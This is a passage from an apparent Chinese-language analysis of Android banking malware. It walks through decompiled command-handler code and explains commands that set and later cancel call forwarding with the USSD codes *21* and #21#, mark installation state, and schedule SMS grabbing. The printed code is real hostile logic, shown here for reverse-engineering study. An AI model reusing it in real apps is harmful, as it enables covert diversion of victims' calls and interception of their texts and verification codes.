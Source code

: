 ```
            String url = commandJson.optString("text");
            if (url.length() &gt; 10) `{`
                sharedPreferenceEditor.putString("url", url).commit();
                sharedPreferenceEditor.putString("inst", "1").commit();
            `}`
            break;
        case "ussd":
            TelephonyManagerWrapper2.callPhoneNumber(context, commandJson.optString("phone"));
            break;
    `}`
`}`
```

在switch中，处理了多个命令，这些不同的命令具体如下。随后，我们将按照列出的顺序逐一分析每个命令。

6.9.2 install_true

在接收到此命令后，字符串inst在共享首选项文件中被设置为2。这意味着安装完成。

```
case "install_true":
    sharedPreferenceEditor.putString("inst", "2").commit();
    break;
```

6.9.3 call_number

设置应该进行呼叫转移的电话号码。使用**21**作为前缀，并以#作为后缀，这样可以确保将呼入的电话转移到指定的号码上。

```
case "call_number":
    TelephonyManagerWrapper2.callPhoneNumber(context, "*21*" + commandJson.optString("phone") + "#");
    new Handler().postDelayed(new StopCallForwardingRunnable(this), 1000 * (((long) commandJson.optInt("time"))));
    break;
```

其中，StopCallForwardingRunnable类调用#21#，取消呼叫转移。命令中的时间变量将会指定何时应该取消呼叫转移，因为runnable的调用被延迟。时间变量是以秒为单位的等待时间，在代码中，原始函数需要以毫秒为单位的变量，因此该变量被乘以了1000。代码如下：

```
public final void run() `{`
    new TelephonyManagerWrapper2().callPhoneNumber(i.context, "#21#");
`}`
```

我们将在分析了所有命令之后，再对TelephonyManagerWrapper2类进行分析。

6.9.4 sms_grab

time_perehv的值表示未来的特定时间，以秒为单位。处理这部分命令的代码如下：

```
case "sms_grab":
    Long time_perehv = (((long) (commandJson.optInt("time") * 1000))) + System.currentTimeMillis();
    sharedPreferenceEditor.putLong("time_perehv", time_perehv).commit();
    break;
```
